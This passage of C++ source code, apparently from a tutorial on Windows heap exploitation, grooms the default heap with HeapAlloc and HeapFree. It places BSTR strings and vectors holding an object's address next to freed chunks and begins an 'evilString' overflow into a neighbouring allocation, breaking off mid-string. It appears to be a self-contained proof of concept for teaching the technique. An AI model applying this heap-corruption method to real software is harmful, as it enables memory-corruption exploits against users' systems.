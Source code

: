 ```
    return -1;
  `}`

  printf("Default heap = 0x%08xn", defaultHeap);

  printf("The following should be all in the backend allocatorn");
  for (i = 0; i &lt; ALLOC_COUNT; i++) `{`
    hChunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    memset(hChunk, 'A', CHUNK_SIZE);
    allocations[i] = hChunk;
    printf("[%d] Heap chunk in backend : 0x%08xn", i, hChunk);
  `}`

  printf("Freeing allocation at index 3: 0x%08xn", allocations[3]);
  result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[3]);
  if (result == 0) `{`
    printf("Failed to freen");
    return -1;
  `}`

  for (i = 0; i &lt; 5; i++) `{`
    bstr = SysAllocString(L"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    bStrings[i] = bstr;
    printf("[%d] BSTR string : 0x%08xn", i, bstr);
  `}`

  printf("Freeing allocation at index 4 : 0x%08xn", allocations[4]);
  result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[4]);
  if (result == 0) `{`
    printf("Failed to freen");
    return -1;
  `}`

  int objRef = (int) object;
  printf("SomeObject address : 0x%08xn", objRef);
  printf("Allocating SomeObject to vectorsn");
  vector&lt;int&gt; array1(40, objRef);
  vector&lt;int&gt; array2(40, objRef);
  vector&lt;int&gt; array3(40, objRef);
  vector&lt;int&gt; array4(40, objRef);
  vector&lt;int&gt; array5(40, objRef);
  vector&lt;int&gt; array6(40, objRef);
  vector&lt;int&gt; array7(40, objRef);
  vector&lt;int&gt; array8(40, objRef);
  vector&lt;int&gt; array9(40, objRef);
  vector&lt;int&gt; array10(40, objRef);

  UINT strSize = SysStringByteLen(bStrings[0]);
  printf("Original String size: %dn", (int) strSize);
  printf("Overflowing allocation 2n");

  char evilString[] =
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
```